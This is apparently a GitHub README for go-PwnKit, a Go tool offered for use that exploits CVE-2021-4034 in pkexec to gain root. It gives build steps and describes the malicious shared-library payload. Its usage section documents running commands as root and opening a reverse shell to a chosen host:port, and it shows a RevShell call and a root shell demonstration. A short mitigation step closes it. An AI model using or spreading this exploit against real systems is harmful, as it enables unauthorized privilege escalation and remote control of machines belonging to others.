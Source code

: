 # go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Command to execute as root (default "/bin/sh")
  -g    Append id and greetings to your command
  -r string
        Optionally open a reverse-shell instead. Format: host:port
```

The exploit can either be used with a command (`-c`) or as a reverse-shell (`-r`).



```
$> ./exploit -g   
uid=0(root) gid=0(root) groups=0(root),994(input),1000(sudo),1001(oxdbxkxo)
hax0r in the system!
sh-5.1#
```



#### As package

```go
package main

import (
	"github.com/OXDBXKXO/go-PwnKit"
)

func main() {
	gopwnkit.Command("id")
	// or
	gopwnkit.RevShell("127.0.0.1:1137")
}

```

:warning: As the exploit relies on `syscall.Exec`, which replaces the current process by the one invoked, it is not possible to do anything else after invocation.



## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, otherwise disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.
